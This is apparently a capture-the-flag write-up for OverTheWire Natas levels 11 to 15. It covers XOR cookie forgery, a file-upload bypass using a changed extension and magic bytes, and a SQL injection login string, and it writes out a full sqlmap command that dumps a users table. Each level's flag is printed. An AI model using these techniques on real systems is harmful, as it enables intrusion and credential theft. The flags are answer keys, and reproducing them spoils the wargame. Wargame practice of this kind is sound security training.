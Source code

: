 # Natas11
In this level yuo need to know what is [XOR Encryption](https://stackoverflow.com/questions/2029426/what-is-xor-encryption)

```
a ^ b =c
a ^ c =b
b ^ c =a
a ^ a =0
a ^ 0 =a
```
Source code :
```php
<?

$defaultdata = array("showpassword"=>"no", "bgcolor"=>"#ffffff");

function xor_encrypt($in) {
    $key = '<censored>';
    $text = $in;
    $outText = '';

    // Iterate through each character
    for($i=0;$i<strlen($text);$i++) {
    $outText .= $text[$i] ^ $key[$i % strlen($key)];
    }

    return $outText;
}

function loadData($def) {
    global $_COOKIE;
    $mydata = $def;
    if(array_key_exists("data", $_COOKIE)) {
    $tempdata = json_decode(xor_encrypt(base64_decode($_COOKIE["data"])), true);
    if(is_array($tempdata) && array_key_exists("showpassword", $tempdata) && array_key_exists("bgcolor", $tempdata)) {
        if (preg_match('/^#(?:[a-f\d]{6})$/i', $tempdata['bgcolor'])) {
        $mydata['showpassword'] = $tempdata['showpassword'];
        $mydata['bgcolor'] = $tempdata['bgcolor'];
        }
    }
    }
    return $mydata;
}

function saveData($d) {
    setcookie("data", base64_encode(xor_encrypt(json_encode($d))));
}

$data = loadData($defaultdata);

if(array_key_exists("bgcolor",$_REQUEST)) {
    if (preg_match('/^#(?:[a-f\d]{6})$/i', $_REQUEST['bgcolor'])) {
        $data['bgcolor'] = $_REQUEST['bgcolor'];
    }
}

saveData($data);



?>

```
The main idea of the code is to encrypted {"showpassword"=>"no", "bgcolor"=>"#ffffff"} and then set it to the cookie, According to the formula above, we know that we can xor cipher and paintext to get the encrypt key, modified the plaintext and use the same key to encrypt it. 
It might take a long time to figure out what happened but it surely worth the time you spend.<br>
## [script answer](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level11.py)
<br>flag:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
## Natas12
[File upload Vulnerability](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
## In the Source code
```php
  if(filesize($_FILES['uploadedfile']['tmp_name']) > 1000) {
        echo "File is too big";
    } else {
        if(move_uploaded_file($_FILES['uploadedfile']['tmp_name'], $target_path)) {
            echo "The file <a href=\"$target_path\">$target_path</a> has been uploaded";
        } else{
            echo "There was an error uploading the file, please try again!";
        }
``` 

## In the html 
```html
<input type="hidden" name="filename" value="<? print genRandomString(); ?>.jpg" />
```
The server get the post filename without any check so you can modified it to some other suffix such as .html or .php which can render by the browser.

## [php payload](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level12.php)
<br>flag:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
# Natas13
In this level they add a exif_imagetype to check if the file is picture or not,but this function only check the [magic byte](https://www.netspi.com/blog/technical/web-application-penetration-testing/magic-bytes-identifying-common-file-formats-at-a-glance/) of the file. So it's actully very weak. Just adding some bytes in the file the function will identify php file as image.
## [python3 script to add bytes](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level13.py)
## [final file](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/src/level13.php)
flag:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
# Natas14
## [SQL injection](https://portswigger.net/web-security/sql-injection)
```
name : natas15" --  #space are required
password : what ever you want
```
flag:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J
# Natas15
In this level we have to do an [SQL injection UNION attack](https://portswigger.net/web-security/sql-injection/union-attacks) , insteat of test for many times we use [sqlmap](https://sqlmap.org/) to get users table's value.
```
 sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" --string="This user exists" --auth-type=Basic --auth-cred=natas15:AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J --data "username=natas16" --level=5 --risk=3 -D natas15 -T users -C username,password --dump   
```
We have the following table.<br>
![img](https://github.com/leohammer123/CTF/blob/main/overthewire/Natas/image/table.png)
flag:WaIHEacj63wnNIBROHeqi3p9t0m5nhmh    


 


